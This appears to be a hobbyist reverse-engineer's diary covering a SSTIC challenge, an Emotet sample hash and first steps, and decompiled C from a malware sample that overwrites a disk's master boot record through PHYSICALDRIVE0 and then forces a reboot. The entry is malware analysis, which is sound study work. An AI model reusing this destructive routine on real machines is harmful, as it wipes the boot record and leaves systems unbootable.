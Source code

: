 ```
---

### 2021/11/09

Dear Diary, long time no see. I learned Rust and Swift, and a bit of kotlin.

Also, i'm really trying hard to switch to Ghidra, but everytime i use it remind me of how good IDA is. Still, IDA is so damn expensive... of course it's time to renew my IDA licence and i can't really spare the expense.

About the SSTIC challenged. I finished 12th on the first flag but couldn't find the others. imho, the 2nd flag was too far away. I was on the right path. I fully reverse engineered the binary, found the exploit (a poorly designed struct related to username, if i remember correctly), the exploit would have helped to poke the windows kernel and get a shell.

Anyway, i'm busy analyzing a malware in my small spare time. An old-school one corrupting the MBR. Good old time.

### uselessdisk.exe

I'm not done with it but here a summary of the important part :

```c
void k_writeToDiskShutdown(void)
{

k_createDataToWriteToDisk(&lpBuffer,&MBR_MALWARE,480);
fhandle = CreateFileA("\\\\.\\PHYSICALDRIVE0",0xc0000000,FILESHARE_CHANGE_MODIFY,0, 3,0,0);

if (fhandle == -1) {
    fhandle = 0x401159; // <- ???
    return;
  }
  DeviceIoControl(device,FSCTL_LOCK_VOLUME,0,0,0,0,&byteReturned, 0);
  WriteFile(device,&lpBuffer,512,&nbOfByteWritten,0);
  DeviceIoControl(device,0x9001c,0,0,0,0,&byteReturned,0);
  CloseHandle(device); // :D
  WinExec("shutdown -r -t 0",0);
  ExitProcess(-1); // but... why ? :)
}
```

---

### 2021/11/10 : Exploring emotet

* SHA256 : 878d5137e0c9a072c83c596b4e80f2aa52a8580ef214e5ba0d59daa5036a92f8
* Probably the scariest trojan of the current days. Let's explore it. I using ghidra again.
* According to ghidra, the only import is ```KERNEL32.DLL::WTSGetActiveConsoleSessionId```
* I wonder what it can possibly be with so little and i'll have to find out.
* The obvious step for now is to find out how it load other functions to be able to do anything.
